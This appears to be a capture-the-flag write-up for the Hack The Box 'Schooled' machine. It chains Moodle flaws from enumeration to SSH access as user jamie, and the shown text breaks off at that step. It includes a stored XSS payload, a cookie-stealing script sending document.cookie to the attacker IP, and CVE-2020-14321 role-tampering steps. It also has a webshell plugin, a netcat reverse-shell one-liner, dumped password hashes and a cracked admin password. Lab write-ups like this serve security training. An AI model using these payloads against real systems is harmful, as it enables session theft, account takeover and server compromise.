









# Schooled
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.234 --min-rate 1000            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 06:55 GMT
Warning: 10.10.10.234 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.234 (10.10.10.234)
Host is up (0.17s latency).
Not shown: 59976 closed tcp ports (conn-refused), 5556 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx

Nmap done: 1 IP address (1 host up) scanned in 399.16 seconds

```
```
└─$ nmap -Pn -p22,80,33060 -sC -sV 10.10.10.234 --min-rate 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 08:15 GMT
Nmap scan report for 10.10.10.234 (10.10.10.234)
Host is up (0.21s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
|_http-title: Schooled - A new kind of educational institute
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
| http-methods: 
|_  Potentially risky methods: TRACE
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94%I=7%D=11/6%Time=6548A0B9%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOp
SF:tions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVers
SF:ionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2
SF:B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fI
SF:nvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")
SF:%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01
SF:\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"
SF:\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY0
SF:00")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(LDAPBindReq,46,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\x01\
SF:x08\x01\x10\x88'\x1a\*Parse\x20error\x20unserializing\x20protobuf\x20me
SF:ssage\"\x05HY000")%r(SIPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LAN
SF:Desk-RC,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(NCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRP
SF:C,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x
SF:0fInvalid\x20message\"\x05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0")%r(WMSRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,32,"
SF:\x05\0\0\0\x0b\x08\x05\x1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Invalid
SF:\x20message-frame\.\"\x05HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10
SF:\x88'\x1a\x0fInvalid\x20message\"\x05HY000");
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.56 seconds

```

- Web server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.234/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error  

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.234/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 199]
/images               (Status: 301) [Size: 235] [--> http://10.10.10.234/images/]
/index.html           (Status: 200) [Size: 20750]
/contact.html         (Status: 200) [Size: 11066]
/about.html           (Status: 200) [Size: 17784]
/css                  (Status: 301) [Size: 232] [--> http://10.10.10.234/css/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.10.234/js/]
/fonts                (Status: 301) [Size: 234] [--> http://10.10.10.234/fonts/]
/teachers.html        (Status: 200) [Size: 15997]

```

- `vhosts`
```
└─$ wfuzz -u http://schooled.htb/ -H 'Host: FUZZ.schooled.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 1555
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://schooled.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000162:   200        1 L      5 W        84 Ch       "moodle"                                                                                                                                                                   
000009532:   400        10 L     45 W       347 Ch      "#www"                                                                                                                                                                     
000010581:   400        10 L     45 W       347 Ch      "#mail"                                                                                                                                                                    

Total time: 0
Processed Requests: 19966
Filtered Requests: 19963
Requests/sec.: 0

```

- `moodle.schooled.htb`


- I'll register a user


## Foothold
- We can enroll to `Maths` course
  - There 2 announcements
    - One states: `Students who do not set their MoodleNet profiles will be  removed from the course before the course is due to start and I will be checking all students who are enrolled on this course`
  - So someone will be checking things


- Let's find the version of `moodle`
  - We can also visit `http://moodle.schooled.htb/moodle/theme/upgrade.txt`
  - Possible version: `3.9 - 3.10`
```
└─$ droopescan scan moodle -u http://moodle.schooled.htb/moodle
[+] Plugins found:                                                              
    forum http://moodle.schooled.htb/moodle/mod/forum/
        http://moodle.schooled.htb/moodle/mod/forum/upgrade.txt
        http://moodle.schooled.htb/moodle/mod/forum/version.php

[+] No themes found.

[+] Possible version(s):
    3.10.0-beta

[+] Possible interesting urls found:
    Static readme file. - http://moodle.schooled.htb/moodle/README.txt
    Admin panel - http://moodle.schooled.htb/moodle/login/

[+] Scan finished (0:00:14.924275 elapsed)
```

- Considering the fact that someone will be checking the account and the note suggesting `MoodleNet` profile to be set
  - Googling results in [CVE-2020-25627](https://0xaniket.medium.com/moodle-3-9-from-xss-to-account-takeover-to-rce-fc264e243b02)
  - I'll edit my profile and add `XSS` payload to `MoodleNet profile` field
    - `<script src="http://10.10.16.4/test.js"></script>`



- And I receive back connection
```
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.16.4 - - [06/Nov/2023 09:52:04] code 404, message File not found
10.10.16.4 - - [06/Nov/2023 09:52:04] "GET /test.js HTTP/1.1" 404 -
10.10.16.4 - - [06/Nov/2023 09:52:04] code 404, message File not found
10.10.16.4 - - [06/Nov/2023 09:52:04] "GET /test.js HTTP/1.1" 404 -
```

- I'll create a `test.js` to steal a `cookie`
```                                                                                                          
var xhr=new XMLHttpRequest(); 
xhr.open("GET", "http://10.10.16.4/?cookie="+document.cookie, true); 
xhr.send();
```

- After few seconds we will receive a cookie
```
10.10.10.234 - - [06/Nov/2023 10:10:10] "GET /test.js HTTP/1.1" 200 -
10.10.10.234 - - [06/Nov/2023 10:10:10] "GET /?cookie=MoodleSession=p08voph7l22d8bshlqiatanfmo HTTP/1.1" 200 -
```

- Set the cookie and refresh the page


- Now having the `teacher` role, we could perform privilege escalation
  - Based on [security posts](https://moodle.org/mod/forum/discuss.php?d=407393#p1644268)
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/moodle#rce
  - Check [video](https://www.youtube.com/watch?v=3OW8zV-yVYw) for detailed steps
  - We need to know a manager user, which `Lianne Carter` based on web page 
  - Now we have our target, we can start performing the attack
  - We have to enrol users
    - Select `Maths` course and navigate to `Participants` and then click `Enrol Users`




- Search for `Lianne Carter`
  - Before clicking `Enrol Users`, we have turn on `Burp Intercept`
  - We have to change `userlist` to `Manuel`'s `id` and `roletoassign` to `1` (manager role)
    - `Manuel`'s `id` is `24`
  - Forward request
  - And we see that `Manuel` is `manager` and `teacher`




- We also have to add `Liana` to our class




- Now as `Lianne` we can access `Site Administration`





- There we have to select `Users` and `Define Roles`



- Now click `gear` icon on `manager`


- Without changing anything, turn on `Burp intercept` and click `Save Changes`



- In `Burp` using the payload from [PoC](https://github.com/HoangKien1020/CVE-2020-14321)
  - Leave `sesskey` as it is, but replace the rest of the paremeters with the payload


- Forward the request
  - Now we have `plugins` menu



- Now we can upload the [zip](https://github.com/HoangKien1020/Moodle_RCE/blob/master/rce.zip) from `PoC`
  - Click `Install Plugins` and drop `zip` there


- Now we have our `webshell`
```
└─$ curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
uid=80(www) gid=80(www) groups=80(www)

```

- Get reverse shell
```
└─$ curl -G http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.4 6666 >/tmp/f'
```


## User
- Let's enumerate
  - `moodle` directory has `config.php` with creds to `db`
```
[www@Schooled /usr/local/www/apache24/data/moodle]$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!

```

- Enumerate `db`
```
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 moodle
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1754
Server version: 8.0.23 Source distribution

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

moodle@localhost [moodle]> 

```
```
moodle@localhost [moodle]> select username, email, password from mdl_user; 
+-------------------+----------------------------------------+--------------------------------------------------------------+
| username          | email                                  | password                                                     |
+-------------------+----------------------------------------+--------------------------------------------------------------+
| guest             | root@localhost                         | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |
| admin             | jamie@staff.schooled.htb               | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |
| bell_oliver89     | bell_oliver89@student.schooled.htb     | $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK |
| orchid_sheila89   | orchid_sheila89@student.schooled.htb   | $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC |
| chard_ellzabeth89 | chard_elizabeth89@student.schooled.htb | $2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC |
| morris_jake89     | morris_jake89@student.schooled.htb     | $2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy |
| heel_james89      | heel_james89@student.schooled.htb      | $2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim |
| nash_michael89    | nash_michael89@student.schooled.htb    | $2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu |
| singh_rakesh89    | singh_rakesh89@student.schooled.htb    | $2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu |
| taint_marcus89    | taint_marcus89@student.schooled.htb    | $2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa |
| walls_shaun89     | walls_shaun89@student.schooled.htb     | $2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga |
| smith_john89      | smith_john89@student.schooled.htb      | $2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em |
| white_jack89      | white_jack89@student.schooled.htb      | $2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK |
| travis_carl89     | travis_carl89@student.schooled.htb     | $2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S |
| mac_amy89         | mac_amy89@student.schooled.htb         | $2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i |
| james_boris89     | james_boris89@student.schooled.htb     | $2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq |
| pierce_allan      | pierce_allan89@student.schooled.htb    | $2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy |
| henry_william89   | henry_william89@student.schooled.htb   | $2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu |
| harper_zoe89      | harper_zoe89@student.schooled.htb      | $2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy |
| wright_travis89   | wright_travis89@student.schooled.htb   | $2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm |
| allen_matthew89   | allen_matthew89@student.schooled.htb   | $2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq |
| sanders_wallis89  | sanders_wallis89@student.schooled.htb  | $2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u |
| higgins_jane      | higgins_jane@staff.schooled.htb        | $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2 |
| phillips_manuel   | phillips_manuel@staff.schooled.htb     | $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG |
| carter_lianne     | carter_lianne@staff.schooled.htb       | $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe |
| parker_dan89      | parker_dan89@student.schooled.htb      | $2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi |
| parker_tim89      | parker_tim89@student.schooled.htb      | $2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S |
| pentest           | pentest@student.schooled.htb           | $2y$10$9apb0.ySzPSF785.qf9tYe0T0DqObsKZ0d0ly3mjrJb/o5ZEnZDMi |
+-------------------+----------------------------------------+--------------------------------------------------------------+
28 rows in set (0.00 sec)

```

- Admin user has `jamie`'s email
  - So we probably have to target his hash
```
└─$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt       
hashcat (v6.2.6) starting
<SNIP>
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx
<SNIP>
```

- Now we can `ssh` as `jamie`
```
